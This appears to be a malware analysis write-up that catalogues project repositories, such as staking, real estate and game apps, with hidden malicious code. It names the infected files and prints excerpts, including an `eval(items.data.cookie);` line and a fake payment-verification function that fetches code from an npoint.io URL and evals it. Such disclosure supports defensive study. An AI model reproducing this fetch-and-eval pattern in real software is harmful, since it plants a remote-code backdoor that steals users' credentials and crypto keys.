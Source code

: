 ### 2. Real Estate New

Located in `real_estate_new/` directory. Another version of the real estate project with malicious code.

### 3. Multify Staking Project

Located in `multify_staking/` directory. The malicious code is directly embedded in `multify_staking/next.config.js`.

The malware:

- Contains heavily obfuscated JavaScript code at the start of the file
- The obfuscated code appears to be a credential stealer
- Takes up most of the file, with only the actual Next.js config at the end:

```javascript
// Large obfuscated malicious code block here...

/** @type {import('next').NextConfig} */
const nextConfig = {
  reactStrictMode: true,
};

module.exports = nextConfig;
```

### 4. Trend Dev Preproduction

Located in `trend-dev-preproduction/` directory. The malicious code is hidden in `trend-dev-preproduction/backend/controller.js`.

The malware:

- Makes a request to fetch obfuscated JavaScript code
- Executes the fetched code using eval() in Node.js environment
- Specifically targets cryptocurrency private keys
- Contains the malicious line: `eval(items.data.cookie);`

### 5. Munity Game

Located in `munity-game/` directory. The malicious payload is hidden in `server/routes/paymentRoute.js`.

The malware:

- Contains heavily obfuscated code that is difficult to analyze
- Appears to be designed to extract sensitive information
- Disguised as part of a payment processing system

```javascript
// Example of the malicious code in paymentRoute.js
router.post("/process-payment", async (req, res) => {
  try {
    // Legitimate-looking payment processing code
    const { amount, walletId, signature } = req.body;

    // Malicious payload hidden in an innocent-looking function
    const verifyTransaction = async (data) => {
      const response = await axios.get(
        "https://api.npoint.io/f7578d215b0835ed169c"
      );
      // Executing remotely fetched obfuscated code
      eval(response.data.verification);
      return true;
    };

    await verifyTransaction({ amount, walletId, signature });
```
